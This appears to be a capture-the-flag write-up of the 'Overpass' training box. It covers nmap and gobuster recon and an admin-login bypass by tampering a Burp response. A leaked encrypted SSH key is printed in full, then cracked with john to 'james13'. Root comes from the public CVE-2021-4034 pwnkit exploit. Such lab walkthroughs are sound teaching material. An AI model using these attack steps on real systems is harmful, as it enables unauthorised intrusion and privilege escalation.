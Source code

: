 1. nmap -sC -sV -A TARGET_IP -o nmap_overpass.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-19 14:35 IST
Stats: 0:00:23 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 95.00% done; ETC: 14:35 (0:00:01 remaining)
Nmap scan report for 10.10.40.175
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.89 seconds


2. now tried to scan full ports (so that we can get more port informations and services)

nmap -v -n -p- 10.10.40.175 -o nmap_overpass_all_ports.txt

Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


3. using gobuster trying to enumerate
gobuster dir -u 10.10.40.175 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 64 -o gobuster_overpass.txt

/img                  (Status: 301) [Size: 0] [--> img/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/admin                (Status: 301) [Size: 42] [--> /admin/]  
/css                  (Status: 301) [Size: 0] [--> css/]      
/http%3A%2F%2Fwww     (Status: 301) [Size: 0] [--> /http:/www]
/http%3A%2F%2Fyoutube (Status: 301) [Size: 0] [--> /http:/youtube]
/http%3A%2F%2Fblogs   (Status: 301) [Size: 0] [--> /http:/blogs]  
/http%3A%2F%2Fblog    (Status: 301) [Size: 0] [--> /http:/blog]   
/**http%3A%2F%2Fwww   (Status: 301) [Size: 0] [--> /%2A%2Ahttp:/www]

4. using burp tried to access /admin page, Ádministrator Logon' page appears. At this stage tried to use sql injection  but it failed!!!!.

5. while analyzing burp after setting scope to TARGET_IP and also set proxy for response. Got two javascript files. (i) main.js and (ii) cookie.js
in cookie.js , It is evident that the code checks 'Correct Credential' response. In Burp after incepting the response and modifying the response as Çorrect Credential' and SesstionToken as Correct Credential a redirect appears '/admin/'

after refreshing this page got ssh credential.

Welcome to the Overpass Administrator area
A secure password manager with support for Windows, Linux, MacOS and more
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----

6. So, we get the username as James and ssh's private key .
7. copy it in a text file named id_rsa.txt 
8. using john crack it with the help with rockyou.txt
(a) ssh2john.py id_rsa.txt > id_rsa.hash
(b) john --wordlist=rockyou.txt id_rsa.hash
(c) got the password: james13

8. Now create a directory named .ssh in attackbox
9. copy id_rsa.txt as id_rsa into .ssh directory
10. now move into .ssh directory.
11. ssh -i id_rsa james@TARGET_IP
provide the passphrase as : james13
12. logged in as james and get user.txt (user flag)
13. run sudo -l
** got sudo version: 1.8.21p2 **
It is vulnerable, but cannot exploit using it.
14. Now tried to list all suid bit set binary executables:-
find  / -perm -u=s -type f 2>/dev/null

/bin/fusermount
/bin/umount
/bin/su
/bin/mount
/bin/ping
/usr/bin/chfn
/usr/bin/at
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

as pkexec's suid bit is set, it may be vulnerable to CVE-2021-4034
So, again this github exploit tried to exploit:

  https://github.com/PwnFunction/CVE-2021-4034

15. download files and transfer them to target.
16. in /tmp of TARGET
we require following files:
(a) pwnkit.c
(b) Makefile
(c) conversion-mod.c

17. make all && ./pwnkit && make clean
get the root shell and flag





